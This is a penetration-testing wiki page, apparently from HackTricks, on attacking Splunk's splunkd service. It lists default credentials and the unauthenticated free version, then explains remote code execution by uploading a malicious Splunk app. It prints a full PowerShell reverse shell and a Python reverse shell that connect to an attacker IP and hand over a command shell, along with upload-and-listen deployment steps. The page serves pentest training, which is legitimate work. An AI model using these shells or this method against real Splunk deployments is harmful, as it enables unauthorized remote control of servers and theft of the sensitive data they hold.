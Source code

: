 # 8089 - Pentesting Splunkd

{{#include ../banners/hacktricks-training.md}}

## **Basic Information**

- Log analytics tool used for data gathering, analysis, and visualization
- Commonly used in security monitoring and business analytics
- Default ports:
  - Web server: 8000
  - Splunkd service: 8089

### Vulnerability Vectors:

1. Free Version Exploitation

- Trial version automatically converts to free version after 60 days
- Free version lacks authentication
- Potential security risk if left unmanaged
- Administrators may overlook security implications

2. Credential Weaknesses

- Older versions: Default credentials `admin:changeme`
- Newer versions: Credentials set during installation
- Potential for weak password use (e.g., `admin`, `Welcome`, `Password123`)

3. Remote Code Execution Opportunities

- Multiple code execution methods:
  - Server-side Django applications
  - REST endpoints
  - Scripted inputs
  - Alerting scripts
- Cross-platform support (Windows/Linux)
- Scripted inputs can run:
  - Bash scripts
  - PowerShell scripts
  - Batch scripts

Key Exploitation Potential:

- Sensitive data storage
- Lack of authentication in free version
- Multiple vectors for potential remote code execution
- Possibility of leveraging scripted inputs for system compromise

### Shodan

- `Splunk build`

## RCE

### Create Custom Application

Splunk offers a sophisticated method for remote code execution through custom application deployment, leveraging its cross-platform scripting capabilities. The core exploitation technique revolves around creating a malicious application that can execute reverse shells on both Windows and Linux systems.

A custom application can run **Python, Batch, Bash, or PowerShell scripts**. Moreover, **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse_shell_splunk) example with the **`bin`** containing example for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Or you could create your own.

The exploitation process follows a consistent methodology across platforms:

```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```

The critical configuration file `inputs.conf` enables the script by:

- Setting `disabled = 0`
- Configuring a 10-second execution interval
- Defining the script's source type

Deployment is straightforward:

1. Create the malicious application package
2. Set up a listener (Netcat/socat) on the attacking machine
3. Upload the application through Splunk's interface
4. Trigger automatic script execution upon upload

Sample Windows PowerShell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```

Sample Linux Python reverse shell:

```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{{#ref}}
../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md
{{#endref}}

## References

- [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{{#include ../banners/hacktricks-training.md}}




